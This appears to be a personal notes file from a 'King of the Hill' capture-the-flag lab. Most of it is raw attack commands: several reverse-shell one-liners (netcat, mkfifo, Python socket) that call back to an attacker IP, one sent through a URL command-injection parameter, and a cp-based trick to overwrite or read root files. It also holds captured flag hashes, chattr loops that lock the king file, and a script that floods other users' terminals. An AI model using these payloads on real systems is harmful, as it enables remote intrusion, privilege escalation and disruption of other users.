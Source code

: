 My Ip : 10.11.43.119

Target ip : 10.10.40.155


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.43.119 4444

nc -e /bin/bash 10.11.43.119 4444

:3000?cmd
python -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("10.11.43.119",4444));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'

```bash


```

cat root.txt 
218f5ea7a4d711eef60171e5c92ba9e1

user bunny
cat user.txt
79973eb57d0188ffc6c85a1a4e57a516

user jordan
cat user.txt 
79973eb57d0188ffc6c85a1a4e57a516

```bash
curl 'http://10.10.77.27:3000/?cmd=python%20-c%20%27a=__import__;s=a(%22socket%22).socket;o=a(%22os%22).dup2;p=a(%22pty%22).spawn;c=s();c.connect((%2210.8.226.18%22,4444));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p(%22/bin/sh%22)%27'

python -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm

Ctrl + Z

stty raw -echo; fg

echo "message" > /dev/pts/2

```

After trying a lot of tests and linPEAS, I found that the easiest method to get king AND root shell is to exploit the cp vulnerability on the box. I am leaving the ideas to you for this one, but after making you king.

LFILE=/root/king.txt
echo "<YOUR USERNAME>" | cp /dev/stdin "$LFILE"
echo "Ayush5091" | cp /dev/stdin "$LFILE"

YOU ARE KING. NOW DEFEND YOUR TITILE.
Free Tip: (You know you can read anyfile with this vuln, use your imagination.)
LFILE=file_to_read
cp "$LFILE" /dev/stdout

```bash
while true;do chattr -i /root/king.txt;echo "Ayush5091" > /root/king.txt;done
```
```py
#!/usr/bin/python
import os

while True:
	for i in range(2,100):
		os.system('echo "Never ever let you go\n" > /dev/pts/{i}')

```

```bash
#!/bin/bash
while [ 1 ]
do

    sleep 2
done
chattr -i /root/king.txt;echo "Ayush5091" > /root/king.txt;chattr +i /root/king.txt



while [ 1 ]; do chattr -i /root/king.txt;echo "Ayush5091" > /root/king.txt;chattr +i /root/king.txt;sleep 3 ;done   


while [ 1 ]; do echo a;sleep 3 ;done 
```